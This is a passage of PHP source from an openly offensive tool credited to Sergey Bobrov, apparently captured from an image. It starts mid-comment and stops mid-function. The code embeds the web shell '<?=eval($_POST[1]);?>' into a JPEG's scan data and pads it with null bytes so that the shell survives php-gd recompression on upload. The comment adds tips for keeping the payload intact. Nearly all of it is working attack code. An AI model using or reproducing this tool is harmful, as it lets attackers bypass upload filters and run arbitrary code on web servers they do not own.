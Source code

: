 ```php
    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.
    Sergey Bobrov @Black2Fan.
    See also:
    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
    */
 
    $miniPayload = '<?=eval($_POST[1]);?>';
 
 
    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }
    
    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }
 
    set_error_handler("custom_error_handler");
 
    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;
 
        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }
 
        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
```